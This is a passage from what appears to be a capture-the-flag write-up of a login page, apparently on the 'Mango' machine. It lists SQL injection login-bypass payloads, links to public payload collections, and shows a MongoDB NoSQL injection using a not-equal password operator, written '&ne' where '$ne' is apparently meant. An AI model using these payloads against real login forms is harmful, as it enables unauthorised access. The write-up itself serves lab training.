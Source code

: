 But this does not return any interesting results... Trying some basic SQL injection login bypasses also does not return an error or allow access:

```
' or 1=1 --
' or 1=1 #
" or 1=1 --
" or 1=1 #
```

Time to get serious... 

- https://github.com/payloadbox/sql-injection-payload-list#sql-injection-auth-bypass-payloads

However these also do not help... Running low on options here... Try NoSQL injection (not commong with PHP)?

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
- https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf

Catch a login request in BurpSuite:

![burp1](./mango/burp1.png)

Then try a basic NoSQL injection to get the following to happend in the backend (assuming MongoDB & NodeJS for example):

```javascript
// BEFORE SQL Injection
db.collection('users').find({
  "user": req.query.user, 
  "password": req.query.password
});
// AFTER SQL Injection
db.collection('users').find({
  "user": "bubba", 
  "password": {"&ne": ""}
});
```

![burp2](./mango/burp2.png)
